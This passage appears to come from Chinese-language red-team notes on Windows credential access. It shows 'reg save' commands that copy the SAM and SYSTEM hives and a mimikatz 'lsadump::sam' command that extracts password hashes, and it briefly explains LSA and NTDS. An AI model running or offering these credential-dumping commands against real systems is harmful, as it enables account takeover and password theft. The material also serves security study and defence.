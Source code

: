 **Reg从注册表中提取SAM**

​    命令行执行：

```
reg save HKLM\sam c:\sam
reg save HKLM\system c:\system
```

​    这种方式提取的文件是乱码，明文需要通过samdump2或者mimikatz再提

![1574317367660](Credential%20Access.assets/1574317367660.png)

```
lsadump::sam /sam:sam /system:system
```

![1574317383054](Credential%20Access.assets/1574317383054.png)

### Local Security Authority (LSA) 

本地安全机构（LSA）是受Microsoft Windows保护的子系统，它是Windows客户端身份验证体系结构的一部分，该体系结构对本地计算机进行身份验证并创建登录会话。

LSA是一个认证机制,在负责Lsa的windows进程lsass中实际存储了系统的账户密码明文和加密过的HASH值。

### NTDS

NTDS不同于SAM，SAM保存本地，NTDS保存在域控，保存了域内所有的HASH
